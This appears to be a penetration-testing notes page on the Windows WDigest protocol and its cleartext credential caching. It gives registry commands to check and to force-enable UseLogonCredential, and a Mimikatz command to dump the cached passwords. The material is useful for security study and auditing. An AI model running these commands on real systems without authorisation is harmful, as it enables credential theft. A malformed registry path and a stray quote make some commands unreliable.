 # WDigest

> WDigest (Digest Authentication) is a challenge/response protocol that was primarily used in Windows Server 2003 for LDAP and web-based authentication. It utilizes Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) exchanges to authenticate.

It should be noted that up to Windows 8 and Windows Server 2012 storing credentials in WDigest was a default setting. This is no longer the case with Windows 10 and Windows Server 2016+. Additionally, it should be noted that WDigest credentials are cached in memory in cleartext.&#x20;

It is easy to verify whether or not caching is enabled by querying the following registry key:&#x20;

```powershell
reg query HKLM\erSYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

If identified, WDigest credentials can be retrieved with a tool such as Mimikatz:

```bash
sekurlsa::wdigest
```

### Forcing Credential Storage in WDigest

It should be noted that even though storing credentials in WDigest is no longer a default setting, it is still something that can be manually configured by an attacker after obtaining access to a system by modifying the following registry value:

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

```powershell
Set-ItemProperty -Force -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name "UseLogonCredential" -Value '1'"
```

We would then be able to dump any users credentials who authenticate to the system with a tool like Mimikatz.

### References

{% embed url="https://stealthbits.com/blog/wdigest-clear-text-passwords-stealing-more-than-a-hash/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext" %}

